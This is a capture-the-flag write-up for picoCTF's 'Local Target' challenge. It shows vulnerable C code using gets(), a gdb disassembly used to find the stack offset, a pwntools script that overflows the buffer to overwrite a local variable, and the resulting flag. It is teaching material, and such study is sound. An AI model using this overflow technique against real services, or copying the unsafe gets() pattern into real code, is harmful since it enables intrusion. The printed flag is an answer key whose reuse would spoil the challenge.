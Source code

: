 # Local Target

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 100

# Challenge

## Description

Smash the stack
Can you overflow the buffer and modify the other local variable? The program is available [here](./local-target). You can view source [here](./local-target.c). And connect with it using:  
`nc saturn.picoctf.net 50983`

## Source

[local-target.c](./local-target.c) (C source)  
[local-target](./local-target) (64-bit ELF)

# Solution

Let's look at the given source code:

```c
int main(){
  // ...
  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  // ...
  gets(input);
  // ...
  
  printf("num is %d\n", num);
  // ...
  
  if( num == 65 ){
    printf("You win!\n");
    // Prints the flag
  }
  // ...
}
```

The program reads a string from the user, into a buffer of size 16, and then prints the value of `num`. If `num` is 65, the flag is printed. The program use `gets()` to read the string, which is vulnerable to [buffer overflow](/Guides/Vulnerabilities/Buffer%20Overflow%20Vulnerability.md). Let's look at the relative positions of the local variables on the stack:

```bash
$ gdb ./local-target
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401236 <+0>:     endbr64
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x20
   0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
   0x0000000000401249 <+19>:    lea    rdi,[rip+0xdb4]        # 0x402004
   0x0000000000401250 <+26>:    mov    eax,0x0
   0x0000000000401255 <+31>:    call   0x4010f0 <printf@plt>
   0x000000000040125a <+36>:    mov    rax,QWORD PTR [rip+0x2e0f]        # 0x404070 <stdout@@GLIBC_2.2.5>
   0x0000000000401261 <+43>:    mov    rdi,rax
   0x0000000000401264 <+46>:    call   0x401120 <fflush@plt>
   0x0000000000401269 <+51>:    lea    rax,[rbp-0x20]
   0x000000000040126d <+55>:    mov    rdi,rax
   0x0000000000401270 <+58>:    mov    eax,0x0
   0x0000000000401275 <+63>:    call   0x401110 <gets@plt>
   ...
End of assembler dump.
```

We can see from line `<+12>` that `num` is at `[rbp-0x8]`, as it is being set with `0x40`, which is `64` in decimal. We can also see that the address of `[rbp-0x20]` is being passed to `gets()`, so it is the address of `input`.  Now we can know how much we need to overflow the buffer, in order to overwrite `num`. We need to write `0x20 - 0x8` bytes, and then write `65` to `num`. Let's use [pwntools](/Guides/Tools/pwntools.md) for that:

```python
from pwn import *

conn = remote('saturn.picoctf.net', 50983)

conn.sendlineafter(b'string: ', b'A' * (0x20 - 0x8) + p32(65))
conn.recvuntil(b'You win!\n')
flag = conn.recvline(False).decode()

print('Flag:', flag)
```

```
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

**The Flag:** `picoCTF{l0c4l5_1n_5c0p3_fee8ef05}`
